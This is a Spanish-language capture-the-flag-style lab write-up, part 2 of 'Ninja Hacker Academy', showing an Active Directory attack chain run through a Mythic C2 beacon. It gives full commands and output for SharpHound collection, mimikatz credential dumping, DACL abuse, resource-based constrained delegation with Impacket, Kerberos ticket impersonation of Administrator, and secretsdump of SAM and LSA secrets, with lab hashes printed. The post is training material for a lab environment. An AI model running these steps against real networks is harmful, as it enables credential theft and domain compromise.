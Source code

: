 ```yaml
---
layout: single
title: Ninja Hacker Academy Parte 2
excerpt: "En esta segunda parte, recolectaremos la data de bloodhound, ejecutaremos mimikatz en el sistema comprometido para oobtener credenciales y haremos movimiento lateral a otro sistema en la red."
date: 2025-09-22
classes: wide
header:
  teaser: /assets/images/NHA/logo_NHA.jpeg
  teaser_home_page: true
categories:
  - Ciberseguridad
tags:
  - Windows
  - Active Directory
---
```



<p align="center">
  <img src="/assets/images/NHA/logo_NHA.jpeg" alt="Logo NHA" style="max-width:60%; height:auto;">
</p>

# Introducción
En esta segunda parte, recolectaremos la data de bloodhound, ejecutaremos mimikatz en el sistema comprometido para oobtener credenciales y haremos movimiento lateral a otro sistema en la red.

Partimos del contexto en el que tenemos dos beacons del sistema sql, con la ip 192.168.56.21, uno con la cuenta NT AUTHORITY\NETWORK SERVICE, y otro con privilegios de SYSTEM.

Vamos a editar el fichero hosts de nuestra máquina atacante, para que pueda resolver los nombres de las máquinas del laboratorio. Para ello, netexec nos facilita la tarea, de esta forma:

```bash
nxc smb 192.168.56.0/24 --generate-hosts-file hosts.txt
```

![](/assets/images/NHA/hosts.png)

Una de las tareas más importantes a la hora de ejecutar un pentesting en un entorno de active directory, es obtener la data de bloodhound, para poder enumerar en condiciones todo el entorno. Para ello, es posible ejecutar en memoria SharpHouind.exe desde Mythic, que nos proporcionará lo que necesitamos.

Con register_assembly lo cargamos en Mythic, y con execute_assembly lo ejecutamos.

![](/assets/images/NHA/sharphound.png)

```bash
execute_assembly SharpHound.exe -c All,GPOLocalGroup
```
![](/assets/images/NHA/sharphound2.png)

Ahora es posible descargarlo para analizarlo desde bloodhound.

![](/assets/images/NHA/download_blood.png)

Además vamos también a ejecutar mimikatz desde mythic, para intentar obtener hashes que nos puedan servir para movernos lateralmente.

```bash
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords"
```

![](/assets/images/NHA/mimi.png)

Y obtenemos el hash ntlm de la cuenta de máquina sql$

```
* Username : SQL$
	 * Domain   : ACADEMY
	 * NTLM     : 87301c6906621fb1b4973ec2b2f4d937
	 * SHA1     : f52af5354b64f68fb9deef15e3a37de252d017e9
	 * DPAPI    : f52af5354b64f68fb9deef15e3a37de2
```


Si nos vamos a bloodhound y buscamos la cuenta de máquina sql, vemos que tiene GenericAll sobre un contenedor llamado computers, y bloodhound nos sugiere utilizar dacledit con el parámetro -inheritance, para que se hereden los permisos a todos los objetos que hayan dentro del contenedor.

![](/assets/images/NHA/bloodhound3.png)

```bash
dacledit.py -action "write" -principal SQL$ -target-dn "CN=COMPUTERS,DC=ACADEMY,DC=NINJA,DC=LAN" "academy.ninja.lan"/"SQL$" -hashes :87301c6906621fb1b4973ec2b2f4d937 -inheritance
[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250926-194525.bak
[*] DACL modified successfully!
```

![](/assets/images/NHA/dacledit.png)

Ahora, si actualizamos la data de bloodhound, volviendo a ejecutar el comando de antes, descargando el nuevo archivo y subiéndolo a bloodhound vemos que tenemos GenericAll también sobre la máquina web$. Y además nos sugiere que utilicemos la técnica RBCD (Resource-Based Constrained Delegation).

![](/assets/images/NHA/bloodhound4.png)

Con lo cual vamos a seguir los pasos que nos indica bloodhound, adaptando los comandos al entorno. Lo primero, creamos una cuenta de máquina llamada ximo$ con la contraseña Password123!

```bash
addcomputer.py -computer-name 'ximo$' -computer-pass 'Password123!' -dc-host academy.ninja.lan "academy.ninja.lan"/"SQL$" -hashes :87301c6906621fb1b4973ec2b2f4d937
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Successfully added machine account ximo$ with password Password123!.
```

![](/assets/images/NHA/addcomputer.png)

Ahora es posible crear la delegación utilizando otro comando de impacket (rbcd)

```bash
rbcd.py -delegate-from 'ximo$' -delegate-to 'web$' -dc-ip 'academy.ninja.lan' -action 'write' "academy.ninja.lan"/"SQL$" -hashes :87301c6906621fb1b4973ec2b2f4d937
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] ximo$ can now impersonate users on web$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     ximo$        (S-1-5-21-491962646-2799345496-3044782539-1137)
```

![](/assets/images/NHA/rbcd.png)

Ahora podemos solicitar un ticket de servicio usando getST.py para el servicio CIFS, y vamos a impersonar al usuario Administrador.

```bash
getST.py -spn 'cifs/web.academy.ninja.lan' -impersonate Administrator -dc-ip 'academy.ninja.lan' "academy.ninja.lan"/"ximo$":"Password123\!"
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_web.academy.ninja.lan@ACADEMY.NINJA.LAN.ccache
```

![](/assets/images/NHA/getst.png)

Exportamos la variable de entorno para poder utilizar el ticket obtenido

```bash
export KRB5CCNAME=Administrator@cifs_web.academy.ninja.lan@ACADEMY.NINJA.LAN.ccache
```

Y ya podemos utilizar netexec para autenticarnos en la máquina web con el usuario Administrator, y volcar los hashes de la máquina.

```bash
nxc smb 192.168.56.21 -k --use-kcache
SMB         192.168.56.21   445    WEB              [*] Windows 10 / Server 2019 Build 17763 x64 (name:WEB) (domain:academy.ninja.lan) (signing:False) (SMBv1:False)
SMB         192.168.56.21   445    WEB              [+] academy.ninja.lan\Administrator from ccache (Pwn3d!)
```
![](/assets/images/NHA/kcache.png)

```bash
secretsdump.py administrator@web.academy.ninja.lan -k -no-pass
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x740c8677f51ec010b35e0195e51bed3c
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0c532fcf2046010cb8d38eedf5e45312:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6d587fe93bb333e51b07759bc056d261:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
ACADEMY\WEB$:plain_password_hex:2d00620042002a0025003f00670030006a003c002400600045002900230052006600400037004f0057002c00760027005d00200068006f003c004f0046004700540077003400310064005b007a0048004600270037002f003500650024003f005800560041004f006e00350032003b002100590073007800560070004a00500045003e003e006a00700041002d00330071006f004f00480070003f002a0035004a00620042004c0066007a0052006d004a005e0076004e005c00460079006e0056003c003c003e0079004c007a0066006700730066003e005000490053004e0055004100360037002900220049005100
ACADEMY\WEB$:aad3b435b51404eeaad3b435b51404ee:2867f65a4e9e216947e1f2703c618730:::
[*] DPAPI_SYSTEM
dpapi_machinekey:0xa730ebdd56bc3da3e79b6dc4f5dfd7b19f354248
dpapi_userkey:0x1984dedd875722fce8677694599f4bc7ef0c1776
[*] NL$KM
 0000   6A 2F A7 33 55 6E B4 2D  26 EA 27 3B 9B C0 A2 5C   j/.3Un.-&.';...\
 0010   D6 5C CC CC 8C 6A 7B 82  D1 83 BC 0B 4F 1A 89 42   .\...j{.....O..B
 0020   66 4F 98 75 84 97 FF AE  F4 C4 7A 60 0D 6A 41 DA   fO.u......z`.jA.
 0030   75 B3 F0 BD 65 28 BD 52  06 8C 06 AA DB BB A1 9A   u...e(.R........
NL$KM:6a2fa733556eb42d26ea273b9bc0a25cd65ccccc8c6a7b82d183bc0b4f1a8942664f98758497ffaef4c47a600d6a41da75b3f0bd6528bd52068c06aadbbba19a
[*] Cleaning up...
[*] Stopping service RemoteRegistry
```




